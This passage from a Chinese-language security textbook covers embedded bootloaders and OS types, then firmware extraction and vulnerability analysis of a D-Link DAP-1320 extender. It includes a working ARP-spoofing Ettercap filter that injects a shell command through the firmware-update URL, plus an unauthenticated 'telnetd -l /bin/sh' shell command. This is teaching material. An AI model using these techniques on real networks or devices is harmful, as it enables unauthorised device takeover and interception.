表 23-4 典型 JTAG/SWD 引脚分配

开发者和测试人员的功能与 JTAG 部分提到的相同。与 JTAG 同样，帮助制造商的功能也使攻击者能够发现漏洞。

## 软件

迄今所讨论的所有硬件，如果没有定义其功能的东西，都将毫无用处。在基于微控制器/微处理器的系统中，软件定义了功能并为系统注入活力。引导加载程序用于初始化处理器并启动系统软件。这些系统的系统软件通常属于以下三种场景之一：

- 无操作系统 适用于简单系统
- 实时操作系统 适用于对处理时间有严格要求的系统（例如，VxWorks 和 Nucleus）
- 通用操作系统 适用于通常没有严格时间约束且功能需求众多的系统（例如，Linux 和 Embedded Windows）

## 引导加载程序

为了使高级软件能在处理器上运行，必须初始化系统。执行处理器及所需初始外围设备初始配置的软件称为 *引导加载程序*。该过程通常需要多个阶段才能使系统准备好运行高级软件。过度简化的过程通常描述如下：

- 1. 微处理器/微控制器根据引导模式从片外设备的固定位置加载一个小程序。
- 2. 小程序初始化 RAM 以及在 RAM 中加载其余引导加载程序所需的结构（例如 U-Boot）。
- 3. 引导加载程序初始化启动主程序或操作系统所需的任何设备，加载主程序，并将执行权转移给新加载的程序。对于 Linux，主程序将是内核。

如果使用 U-Boot，此引导加载程序可能已配置为允许通过替代方式加载主程序。例如，U-Boot 能够从 SD 卡、NAND 或 NOR 闪存、USB、串行接口加载，或者在初始化网络后，通过网络 TFTP 加载。除了加载主程序外，它还可用于替换持久存储设备中的主程序。我们之前在 JTAGulator 示例中提到的 Ubiquiti ER-X 使用 U-Boot（参见图 23-6）。除了加载内核外，它还允许读取和写入内存及存储。

```
Please choose the operation:
1: Load system code to SDRAM via TFTP.
2: Load system code then write to Flash via TFTP.
3: Boot system code via Flash (default).
4: Enter boot command line interface.
7: Load Boot Loader code then write to Flash via Serial.
9: Load Boot Loader code then write to Flash via TFTP.
default: 3
```

```
You chose 4
```

```
4: System Enter Boot Command Line Interface.

U-Boot 1.1.3 (Nov 2 2015 - 16:39:31)
MT7621 # help

?       - alias for 'help'
bootm   - boot application image from memory
cp      - memory copy
erase   - erase SPI FLASH memory
go      - start application at address 'addr'
help    - print online help
i2ccmd  - read/write data to eeprom via I2C Interface
loadb   - load binary file over serial line (kermit mode)
md      - memory display
mdio    - Ralink PHY register R/W command !!
mm      - memory modify (auto-incrementing)
nm      - memory modify (constant address)
printenv- print environment variables
reset   - Perform RESET of the CPU
saveenv - save environment variables to persistent storage
setenv  - set environment variables
spi     - spi command
tftpboot- boot image via network using TFTP protocol
ubntw   - ubntw command
version - print monitor version
MT7621 #
```

图 23-6 Ubiquiti ER-X 的 U-Boot

## 无操作系统

对于许多应用，操作系统的开销和系统的简单性不能证明使用操作系统的合理性，也不允许使用操作系统。例如，执行测量并将其发送到另一台设备的传感器可能使用低功耗微控制器（如 PIC），对操作系统的需求很小。在这个示例中，PIC 可能没有足够的资源（存储、RAM 等）来运行操作系统。

在无操作系统的系统中，数据存储可能非常原始，基于地址偏移或使用 NVRAM。此外，它们通常没有用户界面，或者界面非常简单，例如 LED 和按钮。获取程序后，无论是从存储中提取还是通过下载，格式都可能是完全自定义的，常用文件分析工具不易识别。最好的办法是阅读微控制器的文档，了解设备如何加载代码，并尝试使用反汇编器手动反编译它。

您可能认为如此简单的系统不会很有趣，但请记住，它可能连接到具有 Internet 连接的更复杂的系统。在首先考虑完整的用例（包括连接的设备及其目的）之前，不要轻易否定这些设备没有有价值的攻击面。有限的指令空间可能意味着该设备无法充分保护自身免受恶意输入，且协议可能未加密。此外，连接的系统可能明确信任来自这些设备的任何数据，因此不会采取适当措施确保数据有效。

## 实时操作系统

更复杂且具有严格时间处理要求的系统通常会使用实时操作系统 (RTOS)，例如 VxWorks。RTOS 的优势在于它提供操作系统的功能，例如任务、队列、网络协议栈、文件系统、中断处理程序和设备管理，并额外具有确定性调度器的能力。例如，自动驾驶或驾驶辅助汽车系统可能使用 RTOS 以确保对各种传感器的反应发生在系统的安全容忍范围内（严格）。

对于习惯于运行 Linux 系统的人来说，VxWorks 非常不同。Linux 拥有相当标准的文件系统，包含 telnet、busybox、ftp 和 sh 等常用程序，应用程序作为操作系统上的独立进程运行。使用 VxWorks 时，许多系统实际上以单个进程运行，包含多个任务，没有标准文件系统或次要应用程序。相比之下，Linux 有大量关于固件提取和逆向工程的信息，而关于 VxWorks 的信息却很少。

使用 SPI 或 I²C 提取固件或使用下载的文件将为您提供可反汇编的字符串和代码。但与 Linux 不同，您通常不会得到易于消化的数据。分析密码、证书、密钥和格式字符串的字符串可以产生可用于攻击实时系统的有用秘密。此外，使用 JTAG 设置断点并在设备上执行操作可能是逆向功能的最有效方法。

## 通用操作系统

术语 *通用操作系统* 用于描述非 RTOS 操作系统。Linux 是通用操作系统最常见的示例。嵌入式系统的 Linux 与桌面系统的 Linux 差别不大。文件系统和架构相同。嵌入式版本和桌面版本的主要区别在于外围设备、存储和内存限制。

为了适应通常较小的存储和内存，操作系统和文件系统被最小化。例如，与其使用 Linux 安装的常用程序，如


如 bash、telnetd、ls、cp 等，通常会使用一个名为 busybox 的更小的单体程序。Busybox 14 通过将第一个参数用作所需程序，在单个可执行文件中提供相应功能。虽然我很想说未使用的服务被移除是为了减小攻击面，但它们很可能只是为了节省空间而被移除。

虽然大多数设备并非故意向用户提供控制台访问权限，但许多设备在板上确实有一个用于控制台访问的串行端口。一旦您通过控制台或从存储中提取镜像而获得根文件系统的访问权限，您将希望查看应用程序和库的版本、全局可写目录、任何持久存储以及初始化过程。Linux 的初始化过程位于 /etc/inittab 和 /etc/init.d/rcS，它将让您了解应用程序在启动时是如何启动的。

## 摘要

在本章中，我们简要讨论了不同 CPU 封装（微控制器、微处理器和 SoC）、几种感兴趣的串行接口、JTAG 和嵌入式软件之间的差异。在我们讨论串行接口时，您通过发现 UART（串行）端口的示例了解了 JTAGulator。JTAGulator 还可用于发现 JTAG 调试端口以及潜在的其他几种接口。我们还简要讨论了不同的软件用例，包括引导加载程序、无操作系统、RTOS 和通用操作系统。此时，您应该已掌握嵌入式系统的通用词汇，以及在尝试深入了解时需要关注的几个领域。

## 进一步阅读

- ARM:
  - https://developer.arm.com/products/architecture/a-profile
  - https://www.arm.com/products/processors/cortex-a?tab=Resources
  - https://developer.arm.com/products/architecture/r-profile
  - https://www.arm.com/products/processors/cortex-r?tab=Resources
  - https://developer.arm.com/products/architecture/m-profile
  - https://www.arm.com/products/processors/cortex-m?tab=Resources

- Bus Pirate http://dangerousprototypes.com/docs/Bus_Pirate

- 嵌入式 Linux https://www.elinux.org/Main_Page

- 固件提取与重构 https://www.j-michel.org/blog/2013/09/16/firmware-extraction-and-reconstruction

- 固件安全信息 https://github.com/advanced-threat-research/firmware-security-training

- Free RTOS https://www.freertos.org/

- I2C https://learn.sparkfun.com/tutorials/i2c

- JTAG:
  - http://blog.senr.io/blog/jtag-explained
  - https://developer.arm.com/docs/dui0499/latest/arm-dstream-target-interface-connections/signal-descriptions/serial-wire-debug

- JTAGulator www.grandideastudio.com/jtagulator/

- MT-7621A:
  - https://www.mediatek.com/products/homeNetworking/mt7621n-a
  - https://wikidevi.com/wiki/MediaTek_MT7621

- OpenOCD http://openocd.org/

- 逆向工程 VxWorks 固件 www.devttys0.com/2011/07/reverse-engineering-vxworks-firmware-wrt54gv8/

- SPI https://www.maximintegrated.com/en/app-notes/index.mvp/id/3947

- 了解 ARM 硬件调试选项 https://elinux.org/images/7/7f/Manderson5.pdf

- VxWorks https://www.windriver.com/products/vxworks/

## 参考文献

- 1. 或门，Wikipedia, https://en.wikipedia.org/wiki/OR_gate.
- 2. “ARM 架构配置文件”，ARM 开发者，http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.dui0471i/BCFDF FGA.html.
- 3. “MIPS 出售完成”，Imagination，2017 年 10 月 25 日，https://www.imgtec.com/news/press-release/completion-of-sale-of-mips/.
- 4. “串行外设接口 (SPI)”，Sparkfun，https://learn.sparkfun.com/tutorials/serial-peripheral-interface-spi.
- 5. “串行外设接口总线，SPI 标准”，Wikipedia，https://en.wikipedia.org/wiki/Serial_Peripheral_Interface_Bus#Standards.
- 6. “SPI”，https://learn.sparkfun.com/tutorials/serial-peripheral-interface-spi.
- 7. “I2C—这是什么？”，Wikipedia，I2C，https://www.i2c-bus.org/.
- 8. 联合测试行动组，Wikipedia，https://en.wikipedia.org/wiki/JTAG.
- 9. “JTAG 引脚图”，JTAG 测试，www.jtagtest.com/pinouts/.
- 10. “JTAG 引脚描述”，ARM DS-5 DSTREAM 系统与接口设计参考指南第 5 版，https://developer.arm.com/docs/dui0499/latest/arm-dstream-target-interface-connections/the-arm-jtag-20-connector-pinouts-and-interface-signals/arm-jtag-20-interface-signals.
- 11. “SWJ-DP 的结构”（JTAG/SWD 作为 SWJ-DP 共存），ARM 开发者，http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0314h/Chdjjbcb.html.
- 12. “10 路连接器引脚图”（SWD/JTAG 10 针），ARM 开发者，http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.ddi0314h/Chdhbiad.html.
- 13. “包含追踪的 20 路连接器引脚图”（SWD/JTAG 20 针），ARM 开发者，http://infocenter.arm.com/help/topic/com.arm.doc.ddi0314h/Chdfccbi.html.
- 14. “BusyBox：嵌入式 Linux 的瑞士军刀”，BusyBox，https://busybox.net/about.html.

## 利用嵌入式设备

本章介绍利用嵌入式设备的主题。随着物联网（IoT）的出现，这一主题变得越来越重要，如前几章所述。从电梯到汽车、烤面包机以及一切“智能”设备，嵌入式设备正在变得无处不在，安全漏洞和威胁也在变得数不胜数。正如 Bruce Schneier 所观察到的，这就像 20 世纪 90 年代的“西部荒野”重现；无论我们看向哪里，这些嵌入式设备中都存在漏洞。Schneier 解释说，这是因为许多因素造成的，包括设备自身的资源有限，以及在生产嵌入式设备这一低利润领域中，制造商的资源有限。¹ 希望更多的道德黑客能够迎接这一挑战，在嵌入式设备漏洞的洪流中占据一席之地。为此，在本章中，我们将讨论以下主题：

- 嵌入式设备漏洞的静态分析
- 基于硬件的动态分析
- 基于仿真的动态分析

## 嵌入式设备漏洞的静态分析

漏洞的静态分析涉及在不需要为待评估设备通电的情况下，通过检查系统的更新包、文件系统和二进制文件来查找漏洞。事实上，在大多数情况下，攻击者不需要拥有设备即可进行大部分静态分析。在本节中，您将接触到一些用于对嵌入式设备进行静态分析的工具和技术。

## 实验 24-1：分析更新包

在大多数情况下，设备的更新包可以从厂商网站下载。目前，大多数更新未加密，因此可能可以使用 unzip、binwalk 和 Firmware Mod Kit 等各种工具进行解构。出于教学目的，我们将查看基于 Linux 的系统，因为您很可能已经熟悉这些系统。

在基于 Linux 的嵌入式系统中，更新包通常包含运行系统所需的所有基本文件和目录的新副本。所需的目录和文件被称为根文件系统 (RFS)。如果攻击者能够访问 RFS，他们将拥有初始化例程、Web 服务器源代码、运行系统所需的任何二进制文件，以及可能为攻击者在尝试利用系统时提供优势的一些二进制文件。例如，如果系统使用 Busybox 并包含 telnetd 服务器，攻击者可能能够利用 Telnet 服务器为系统提供远程访问。具体来说，Busybox 中包含的 telnetd 服务器提供一个参数，允许它在无需身份验证的情况下被调用，并绑定到任何程序 (/usr/sbin/telnetd -l /bin/sh)。

作为示例，我们将调查 D-Link DAP-1320 无线信号扩展器固件更新的旧版本（A 硬件版本 1.1）。选择此更新是因为它是一个较旧的、已打补丁的更新，且漏洞披露 (www.kb.cert.org/vuls/id/184100) 由多位作者报告。


第一步是创建固件解构环境。在我们的情况中，我们将使用固件修改工具包。我们分析的基础主机系统是 Kali Linux 2017.1。为了安装固件修改工具包，必须先使用包管理器 apt-get ① 安装先决条件。满足先决条件后，安装只需从 GitHub ② 克隆项目。首次运行 extract-firmware.sh 时，它会编译必要的工具并产生大量输出（示例中省略了首次运行）。然后我们尝试提取固件 ③，如果工具知道包和内容类型，它们将被提取以供进一步分析。从输出中，我们可以看到该工具已找到 MIPS Linux 内核镜像 ④ 和 squashfs 文件系统 ⑤，并且它们已成功提取到 fmk 目录 ⑥。通过浏览提取内容，我们将其识别为 rootfs ⑦，并验证二进制文件是为 MIPS ⑧ 编译的。


```bash
root@kali:~/DAP-1320# apt-get install git build-essential zlib1g-dev \
> liblzma-dev python-magic
<truncated for brevity>
After this operation, 111 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
<truncated for brevity>
root@kali:~/DAP-1320# git clone https://github.com/rampageX/firmware-mod-kit.git
<truncated for brevity>
root@kali:~/DAP-1320# export PATH=$PATH:/root/DAP-1320/firmware-mod-kit
root@kali:~/DAP-1320# extract-firmware.sh DAP1320_fw_1_11b10.bin
Firmware Mod Kit (extract) 0.99, (c)2011-2013 Craig Heffner, Jeremy Collake
Scanning firmware...
Scan Time: 2017-12-05 17:10:39
Target File: /root/DAP-1320/DAP1320_fw_1_11b10.bin
MD5 Checksum: 3d13558425d1147654e8801a99605ce6
Signatures: 344
DECIMAL HEXADECIMAL DESCRIPTION
--------------------------------------------------------------------------------
0 0x0 uImage header, header size: 64 bytes, header CRC: 0x71C7BA94, created: 2013-09-16 08:50:53, image size: 799894 bytes, Data Address: 0x80002000, Entry Point: 0x801AB9F0, data CRC: 0xA62B902, OS: Linux, CPU: MIPS,
image type: OS Kernel Image, compression type: lzma, image name: "Linux Kernel
Image"
64 0x40 LZMA compressed data, properties: 0x5D, dictionary
size: 8388608 bytes, uncompressed size: 2303956 bytes
851968 0xD0000 Squashfs filesystem, little endian, version 4.0,
compression:lzma, size: 2774325 bytes, 589 inodes, blocksize: 65536 bytes,
created: 2013-09-16 08:51:15
Extracting 851968 bytes of uimage header image at offset 0
Extracting squashfs file system at offset 851968
Extracting 544 byte footer from offset 5438942
Extracting squashfs files...
Firmware extraction successful!
Firmware parts can be found in '/root/DAP-1320/fmk/*'
root@kali:~/DAP-1320# ls fmk
image_parts logs rootfs
root@kali:~/DAP-1320# ls fmk/rootfs
bin dev etc lib linuxrc proc sbin share sys tmp usr var www
root@kali:~/DAP-1320# ls fmk/rootfs/bin
ash cli ethreg ln mount ps touch
busybox cp fgrep login mv rm udhcpc
busybox_161 date gpio_event ls netbios_checker sed umount
cat dd grep md nvram sh uname
cgi echo hostname mkdir ping sleep xmlwf
chmod egrep kill mm ping6 ssi
root@kali:~/DAP-1320# file fmk/rootfs/bin/busybox
busybox: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV),
dynamically linked, interpreter /lib/ld-uClibc.so.0, corrupted section header
size
```

现在更新包已提取完毕，是时候浏览文件，查找功能、配置或未知应用程序了。表 24-1 定义了浏览时需查找的一些项目。

| 目的 | BASH 命令示例 |
|---|---|
| 定位可执行文件（注意：非 Busybox 文件）。 | `find . -type f -perm /u+x` |
| 确定目录结构以供日后分析。 | `find . -type d` |
| 查找 Web 服务器或相关技术。 | `find . -type f -perm /u+x -name "*httpd*" -o -name "*cgi*" -o -name "*nginx*"` |
| 查找库版本。 | `for i in \`find . -type d -name lib\`;do find $i -type f;done` |
| 查找 HTML、JavaScript、CGI 和配置文件。 | `find . -name "*.htm*" -o -name "*.js" -o -name "*.cgi" -o -name "*.conf"` |
| 查找可执行文件版本（例如 lighttpd） | `strings sbin/lighttpd | grep lighttpd` |

表 24-1 文件系统查询示例


**注意** 发现的任何带有版本的可执行文件或库都需要针对已知漏洞进行交叉核对。例如，使用 Google 搜索 <名称> <版本号> 漏洞。

收集完所有这些信息后，您将希望了解是什么在处理来自浏览器或任何运行服务的请求。由于我已经完成了前面所有步骤，我对以下示例进行了精简，以使分析更加凝练和直截了当。发现的 Web 服务器是 lighttpd，它使用 lighttpd*.conf 和 modules.conf 进行配置。此外，它使用 cgi.conf，该文件将几乎所有处理都指向 /bin/ssi（一个二进制可执行文件）。

```bash
root@kali:~/DAP-1320/fmk/rootfs# find . -type f -perm /u+x -name "*httpd*" -o
-name "*cgi*" -o -name "*nginx*"
<truncated for brevity>
./sbin/lighttpd
./sbin/lighttpd-angel
./etc/conf.d/cgi.conf
./bin/cgi
root@kali:~/DAP-1320/fmk/rootfs# find . -name *.conf
./etc/lighttpd.conf
./etc/conf.d/mime.conf
./etc/conf.d/cgi.conf
./etc/conf.d/auth_base.conf
./etc/conf.d/expire.conf
./etc/conf.d/auth.conf
./etc/conf.d/dirlisting.conf
./etc/conf.d/graph_auth.conf
./etc/conf.d/access_log.conf
./etc/modules.conf
./etc/host.conf
./etc/resolv.conf
./etc/lighttpd_base.conf
root@kali:~/DAP-1320/fmk/rootfs# cat etc/lighttpd_base.conf
###############################################################################
## /etc/lighttpd/lighttpd.conf
## check /etc/lighttpd/conf.d/*.conf for the configuration of modules.
```

```text
######################
<truncated>
# Load the modules.
include "modules.conf"
<truncated>
root@kali:~/DAP-1320/fmk/rootfs# cat etc/modules.conf
######################
```

```text
######################
# Modules to load
<truncated>
include "conf.d/cgi.conf"
root@kali:~/DAP-1320/fmk/rootfs# cat etc/conf.d/cgi.conf
######################
```

```text
######################
# CGI modules
#
# -------------------
#
# http://www.lighttpd.net/documentation/cgi.html
##
server.modules += ( "mod_cgi" )
```

```text
# Plain old CGI handling
# For PHP don't forget to set cgi.fix_pathinfo = 1 in the php.ini.
##
cgi.assign
= (
".htm" => "/bin/ssi",
".public.js" => "/bin/ssi",
".xml" => "/bin/ssi"
"save_configure.cgi" => "/bin/sh",
"hnap.cgi" => "/bin/sh",
"tr069.cgi" => "/bin/sh",
"widget.cgi" => "/bin/sh",
".cgi" => "/bin/ssi",
".html" => "/bin/ssi",
".txt" => "/bin/ssi"
)
```

此时，我们已了解如何进行，并将开始漏洞分析。

## 实验 24-2：执行漏洞分析

此时，漏洞分析与前几章教授的内容无太大区别。可以搜索命令注入、格式字符串、缓冲区溢出、使用后释放、配置错误以及许多其他漏洞。在此示例中，我们将使用一种技术来查找可执行文件中的命令注入类漏洞。由于 /bin/ssi 是二进制文件，我们将查找使用 %s（用于字符串）的格式字符串，然后将输出重定向到 /dev/null（这意味着我们不关心输出）。这种模式很有趣，因为它可能指示 sprintf 函数正在创建一个命令，该命令包含潜在的用户控制变量，以便与 popen 或 system 一起使用。例如，用于查看另一台主机是否存活的命令可能按如下方式创建：

```text
sprintf(cmd, "ping -q -c 1 %s > /dev/null", variable)
```

如果变量由攻击者控制且未经过清理，并且 cmd 用于在 shell 中执行，则攻击者可以将其命令注入到预定命令中。在此示例中，我们有两个看似用于下载文件的有趣字符串：

```bash
root@kali:~/DAP-1320/fmk/rootfs# strings bin/ssi | grep "%s" | grep "/dev/null"
wget -P /tmp/ %s > /dev/null
wget %s -O %s >/dev/null &
```

拥有这两个字符串后，我们将开始对二进制文件进行逆向工程，以查看是否可以控制变量 URL。IDA Pro 将是本练习的首选工具。

IDA Pro 分析的主要目标是确定字符串的使用方式是否让攻击者有机会篡改它。在 IDA Pro 中打开 ssi 二进制文件并确保处理器设置为 MIPS 后，我们采取以下步骤：

- 1. 搜索感兴趣的字符串。
- 2. 确定字符串的使用方式。
- 3. 确定 URL 来源（如果是硬编码，则我们不感兴趣）。

按 ALT-T 打开文本搜索屏幕，然后为字符串选择查找所有出现项，如下所示。


我们只找到字符串的两处出现；一处是静态格式字符串，另一处是对静态字符串的引用，如下所示。（注：您可以忽略函数名；它在初始分析时并不存在，而是后来由作者添加的。）

| 地址 | 函数 | 指令 |
|---|---|---|
| LOAD:00409010 | download_fw_and_lp | la $a1, aWgetPTmpSDevNu # "wget -P /tmp/ %s > /... |
| LOAD:00428458 | | aWgetPTmpSDevNu:.ascii "wget -P /tmp/ %s > /dev/null"<0> |

双击高亮显示的结果，将转到该指令所在的

反汇编。向下滚动，我们看到该字符串正在被用于 sprintf 构造下载命令，并传递给位于 00409064 的 system，如下所示。

```
LOAD:00409010 la $a1, aWgetPTmpSDevNu # "wget -P /tmp/ %s > /dev/null"
LOAD:00409014 jalr $t9 ; sprintf
LOAD:00409018 move $a0, $s2
LOAD:0040901C lw $gp, 0x2B0+var_2A0($sp)
LOAD:00409020 move $a0, $s0
LOAD:00409024 move $a1, $zero
LOAD:00409028 la $t9, memset
LOAD:0040902C nop
LOAD:00409030 jalr $t9 ; memset
LOAD:00409034 li $a2, 0x80
LOAD:00409038 lw $gp, 0x2B0+var_2A0($sp)
LOAD:0040903C lw $a2, 8($s3)
LOAD:00409040 lui $a1, 0x43
LOAD:00409044 la $t9, sprintf
LOAD:00409048 la $a1, aTmpS # "/tmp/%s"
LOAD:0040904C jalr $t9 ; sprintf
LOAD:00409050 move $a0, $s0
LOAD:00409054 lw $gp, 0x2B0+var_2A0($sp)
LOAD:00409058 nop
LOAD:0040905C la $t9, system
LOAD:00409060 nop
LOAD:00409064 jalr $t9 ; system
```

在这一点上，我们至少知道该字符串正在用于调用 system。从这里开始，我们需要了解格式字符串中的 URL 是如何提供的。这要求我们跟踪程序到此点的控制流。

要跟踪到达此子例程/函数入口的控制流，我们需要滚动到函数顶部并选择左侧的地址。选中地址后，只需按 X 键即可跳转到其交叉引用，如所示。

```
LOAD:00408F30 download_fw_and_lp:
LOAD:00408F30
LOAD:00408F30 var_2A0
LOAD:00408F30 var_298
LOAD:00408F30 var_218
LOAD:00408F30 var_118
LOAD:00408F30 var_14
LOAD:00408F30 var_10
LOAD:00408F30 var_C
LOAD:00408F30 var_8
LOAD:00408F30 var_4
LOAD:00408F30
LOAD:00408F30
LOAD:00408F34
```


```
lui $gp, 0x45
addiu $sp, -0x2B0
```

下载例程的交叉引用实际上是一个查找表，包含指向每个命令入口点的函数指针。代码会搜索命令并跳转到其相邻的例程指针。您将看到“IPv6 功能”、“将固件和语言下载到 DUT”以及“get_wlan_ip”的命令，如下所示。请注意，命令的形式为短名称、函数指针和长名称。由于这是一个查找表，我们需要找到表的开头才能定位其交叉引用。

```
LOAD:00446754                 .word aIpv6             # "ipv6"
LOAD:00446758                 .word sub_40E790
LOAD:0044675C                 .word aIpv6Function     # "IPv6 Function"
LOAD:00446760                 .word aDownloadFwLp     # "download_fw_lp"
LOAD:00446764                 .word download_fw_and_lp
LOAD:00446768                 .word aDownloadFwAndL   # "Download FW and language to DUT"
LOAD:0044676C                 .word aGetWlanIp        # "get_wlan_ip"
LOAD:00446770                 .word sub_40D680
LOAD:00446774                 .word aGetWlanIp_0      # "Get wlan ip"
```

尽管我们尚未完全将 system 调用的源头追溯到根源，但可以肯定的是，它指向用于下载固件的 cgi 命令。对“download_fw_lp”字符串进行几次 grep ① 就能找到其源头 ②③。至此，我们将继续尝试通过固件更新来利用该设备。

```
①root@kali:~/DAP-1320/fmk/rootfs# grep -r download_fw_lp .
②./www/Firmware.htm:<input type="hidden" id="action" name="action" value="download_fw_lp">
Binary file ./bin/ssi matches
①root@kali:~/DAP-1320/fmk/rootfs# grep -C 7 download_fw_lp www/Firmware.htm
<form id="form3" name="form3" method="POST" action="apply.cgi">
<input type="hidden" id="html_response_page" name="html_response_page" value="Firmware.htm">
<input type="hidden" name="html_response_return_page" value="Firmware.htm">
<input type="hidden" id="html_response_message" name="html_response_message" value="dl_fw_lp">
<input type="hidden" id="file_link" name="file_link" value="">
<input type="hidden" id="file_name" name="file_name" value="">
<input type="hidden" id="update_type" name="update_type" value="">
③<input type="hidden" id="action" name="action" value="download_fw_lp">
</form>
```

## 使用硬件进行动态分析

评估的静态分析部分已完成。从现在起，我们将查看系统运行时的情况。我们需要搭建一个环境来拦截设备到广域网（WAN）的请求，将 DAP-1320 连接到我们的测试网络，并开始执行固件更新流程。最终目标是通过命令注入在无线扩展器上执行某些操作。

### 测试环境搭建

我们选择的测试环境使用 64 位 Kali Linux 2017、Ettercap、固件版本为 1.11 的 DAP-1320 无线范围扩展器以及一个标准无线网络。其思路是对 DAP-1320 进行 ARP 欺骗，使得所有从设备发出或发往设备的流量均经过我们的 Kali Linux 系统。虽然我们本可以简单地在扩展器和路由器之间插入一个可在检查和修改后转发流量的设备，但 ARP 欺骗极有可能是实际场景中使用的攻击机制。

### Ettercap

简单复习一下，地址解析协议（ARP）是将 IP 地址解析为其媒体访问控制（MAC）地址的机制。MAC 地址是由网络设备制造商分配的唯一地址。简单来说，当一个站点需要与另一个站点通信时，它会使用 ARP 来确定与要使用的 IP 关联的 MAC 地址。ARP 欺骗实际上会中毒站点的 ARP 表，导致它们使用攻击者的 MAC 地址，而不是目标站点的实际 MAC 地址。因此，所有发往目标的流量都将经过攻击者的站点。这实际上相当于在无需物理修改网络的情况下插入一个设备。

Ettercap 是一款允许我们为中间人（MITM）攻击进行 ARP 欺骗、解析数据包、修改数据包并将其转发给接收者的工具。首先，我们使用 Ettercap 通过发出以下命令来查看设备与互联网之间的流量（此示例中设备为 192.168.1.173，网关为 192.168.1.1）：

```
root@kali:~/DAP-1320# ettercap -T -q -M arp:remote /192.168.1.173// /192.168.1.1//
```

Ettercap 启动后，我们将在与设备交互时使用 Wireshark 查看流量。启动 Wireshark 并开始捕获后，我们可以查看设备升级页面上的固件更新，如所示。


单击“检查新固件”按钮，然后在 Wireshark 中跟随 TCP 流。我们现在看到设备在前两行访问 http://wrpd.dlink.com.tw/router/firmware/query.asp?model=DAP-1320_Ax_Default，响应为 XML 编码的数据，如下所示。


访问我们捕获的 URL，可以看到 XML 中包含了固件版本的主版本号和次版本号、下载站点以及发行说明。

```
<DAP-1320_Ax>
<Default>
<FW_Version>
<Major>01</Major>
<Minor>11</Minor>
<Date>2013-09-17</Date>
<Recommend/>
</FW_Version>
<Download_Site>
<Global>
<Firmware>
http://d9qhdod87cnnk.cloudfront.net/DAP-1320/Ax/Default/0111/DAP1320A2_FW111B10.bin
</Firmware>
<Release_Note>
http://wrpd.dlink.com/router/firmware/GetReleaseNote.aspx?model=DAP-1320_Ax_Default_FW_0111
</Release_Note>
</Global>
</Download_Site>
</Default>
</DAP-1320_Ax>
```

掌握这些信息后，我们可以假设，如果将次版本号改为 12 并将固件链接改为 shell 命令，将强制设备尝试更新并因此运行我们的命令。为了完成此任务，我们需要创建一个 Ettercap 过滤器 ➊（之前已保存并在此显示），对其进行编译 ➋，然后运行它 ➌，具体如下：

```
root@kali:~/DAP-1320# cat ettercap.filter
if (ip.proto == TCP && tcp.src == 80) {
msg("Processing Minor Response...\\n");
if (search(DATA.data, "Minor>11")) {
replace("<Minor>11", "<Minor>12");
msg("zapped Minor version!\\n");
}
}

if (ip.proto == TCP && tcp.src == 80) {
msg("Processing Firmware Response...\\n");
if (search(DATA.data, "http://d")) {
replace("http://d", "`reboot`");
msg("zapped firmware!\\n");
}
}
}
```

```
root@kali:~/DAP-1320# etterfilter ettercap-reboot.filter -o ettercap-reboot.ef
<output omitted for brevity>
root@kali:~/DAP-1320# ettercap -T -q -F ettercap-reboot.ef -M arp:remote
/192.168.1.173// /192.168.1.1//
<output omitted for brevity>
```

为了确定我们的命令是否正在执行，我们需要在发起升级时 ping 该设备并监控 ping 消息。但首先，请注意，单击后


检查新固件按钮，我们现在看到有 1.12 版本可供下载。


在点击升级固件按钮之前，我们需要设置 ping 来监控设备。当我们点击升级固件按钮时，应该会看到以下下载进度框：


```
root@kali:~/DAP-1320# ping 192.168.1.173
64 bytes from 192.168.1.173: icmp_seq=56 ttl=64 time=2.07 ms
64 bytes from 192.168.1.173: icmp_seq=57 ttl=64 time=2.20 ms
64 bytes from 192.168.1.173: icmp_seq=58 ttl=64 time=3.00 ms
①From 192.168.1.173 icmp_seq=110 Destination Host Unreachable
From 192.168.1.173 icmp_seq=111 Destination Host Unreachable
From 192.168.1.173 icmp_seq=112 Destination Host Unreachable
From 192.168.1.173 icmp_seq=113 Destination Host Unreachable
From 192.168.1.173 icmp_seq=114 Destination Host Unreachable
From 192.168.1.173 icmp_seq=115 Destination Host Unreachable
From 192.168.1.173 icmp_seq=116 Destination Host Unreachable
From 192.168.1.173 icmp_seq=117 Destination Host Unreachable
From 192.168.1.173 icmp_seq=118 Destination Host Unreachable
From 192.168.1.173 icmp_seq=119 Destination Host Unreachable
From 192.168.1.173 icmp_seq=120 Destination Host Unreachable
From 192.168.1.173 icmp_seq=121 Destination Host Unreachable
②64 bytes from 192.168.1.173: icmp_seq=122 ttl=64 time=1262 ms
64 bytes from 192.168.1.173: icmp_seq=123 ttl=64 time=239 ms
64 bytes from 192.168.1.173: icmp_seq=124 ttl=64 time=2.00 ms
```

您会注意到主机变得无响应 ①，随后重新上线 ②。这表明该设备已重启。此时，我们已经证明可以将命令注入升级 URL，设备会执行该命令。如果不向设备上传可执行文件，则受限于设备上现有的内容。例如，如前所述，如果 telnetd 编译进了 Busybox（本系统中不包含），您可以直接启动它以免密码访问 shell，如下所示：

```
telnetd -l /bin/sh
```

下一节将演示此方法。如果需要，您可以为该处理器交叉编译一个如 netcat 这样的二进制文件，然后通过 tftp 或 tfcp 上传，如 Craig Heffner 所演示，2，或者您可以使用另一种方法。

## 使用仿真的动态分析

事实证明，在某些情况下，无需手头有硬件即可执行漏洞分析和利用固件。

### FIRMADYNE

FIRMADYNE 3 工具允许使用 QEMU 虚拟机监控程序模拟固件。这种方法的好处是您无需购买硬件来测试固件。这种强大的方法允许并行进行规模化测试。Dominic Chen 下载并测试了超过 23,000 个固件样本，并成功运行了其中约 9,400 个（约 40%），4 这一点也不算差。在接下来的实验中，我们将设置并执行 FIRMADYNE。

#### 实验 24-3：设置 FIRMADYNE

如果您想跟进本实验，我们将使用 Ubuntu 16.04.3 服务器，运行在 VMware 或 VirtualBox 中，使用 NAT 网络设置，仅安装了 OpenSSH，用户名为 firmadyne。首先，我们需要使用 FIRMADYNE GitHub 上的说明来设置 FIRMADYNE 工具（参见本章末尾的“进一步阅读”部分）：

```
firmadyne@ubuntu:~$ sudo apt-get update
<output skipped throughout this lab for brevity>
firmadyne@ubuntu:~$ sudo apt-get install busybox-static fakeroot git kpartx \
> netcat-openbsd nmap python-psycopg2 python3-psycopg2 snmp uml-utilities \
> util-linux vlan
